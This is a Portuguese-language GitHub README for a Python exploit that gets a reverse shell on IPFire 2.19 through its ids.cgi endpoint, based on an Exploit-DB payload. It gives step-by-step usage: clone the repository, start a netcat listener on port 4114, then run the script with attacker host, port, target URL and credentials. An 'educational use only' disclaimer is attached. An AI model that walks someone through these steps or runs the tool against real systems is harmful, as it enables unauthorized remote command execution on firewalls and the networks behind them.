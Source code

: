 # IPFire Reverse Shell Exploit

![Small Bypass](smallBypass.jpg)



Este é um script em Python para explorar uma vulnerabilidade em instalações do IPFire que permite a execução de um shell reverso. Ele é destinado apenas para fins educacionais e de teste. Use com responsabilidade e apenas em ambientes onde você tem permissão.
Este Script foi criado com auxilio do chatgpt e baseado no payload disponivel em:
https://www.exploit-db.com/exploits/42149

## Requisitos

- Python 3.x
- Bibliotecas Python: `requests`

## Uso

Para usar o script, siga as instruções abaixo:

1. Clone o repositório:

   ```bash
   git clone https://github.com/BrotherOfJhonny/IPFire_2.19.git

2. Acesse a pasta:
 ``
cd IPFire_2.19
 ``

4. Em outro terminal execute o netcat com os dados da porta que irá receber a conexão reversa.

 ```bash
nc -lvnp 4114
 ```

5. Execute seguindo as intruções:

  ```bash
python ipfireExpl3.py --revhost SEU_HOST --revport SUA_PORTA --url URL_VULNERAVEL --u SEU_USUARIO --p SUA_SENHA
 ```

Substitua SEU_HOST, SUA_PORTA, URL_VULNERAVEL,  ```exemplo: https://10.2.2.1:444/cgi-bin/ids.cgi ```, SEU_USUARIO e SUA_SENHA pelos valores apropriados.

6. Observação

```Observação
Após executar o script pode demorar até um minuto para obtenção do shell reverso
```

![Small Bypass](Small_sucesso.jpg)



## Aviso Legal
Este script é fornecido apenas para fins educacionais e de teste. Não é destinado a uso malicioso. Use-o apenas em sistemas onde você tem permissão para testar a vulnerabilidade. O autor não é responsável por qualquer uso indevido deste script.

## Contribuições
Contribuições são bem-vindas! Se você deseja melhorar ou estender este projeto, sinta-se à vontade para enviar um pull request.
